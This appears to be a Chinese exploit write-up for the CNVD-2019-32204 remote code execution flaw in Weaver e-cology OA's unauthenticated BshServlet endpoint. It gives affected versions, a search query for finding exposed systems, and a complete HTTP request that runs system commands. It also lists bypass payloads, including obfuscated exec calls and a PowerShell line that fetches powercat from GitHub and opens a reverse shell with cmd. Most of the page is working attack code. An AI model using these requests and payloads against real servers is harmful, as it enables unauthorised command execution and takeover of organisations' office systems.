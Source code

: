 # 泛微OA E-Cology BshServlet 远程代码执行漏洞 CNVD-2019-32204

## 漏洞描述

2019年9月17日泛微OA官方更新了一个远程代码执行漏洞补丁, 泛微e-cology OA系统的Java Beanshell接口可被未授权访问, 攻击者调用该Beanshell接口, 可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程命令执行, 漏洞等级严重.

## 网络测绘

<a-checkbox checked>app=“泛微-协同办公OA”</a-checkbox></br>

## 影响版本

<a-checkbox checked>E-cology 7.0</a-checkbox></br>
<a-checkbox checked>E-cology 8.0</a-checkbox></br>
<a-checkbox checked>E-cology 8.1</a-checkbox></br>
<a-checkbox checked>E-cology 9.0</a-checkbox></br>

## 漏洞复现

直接在网站根目录后加入组件访问路径 `/weaver/bsh.servlet.BshServlet/`，如下图在victim上执行了命令“whoami”

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/fanwei-6.png)



请求包为

```shell
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: xxxxxxxx:8088
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 98
Content-Type: application/x-www-form-urlencoded

bsh.script=ex\u0065c("cmd /c dir");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```

关于绕过

```shell
eval%00("ex"%2b"ec(\"whoami\")");
ex\u0065c("cmd /c dir");
IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c ip -p 6666 -e cmd
```



## 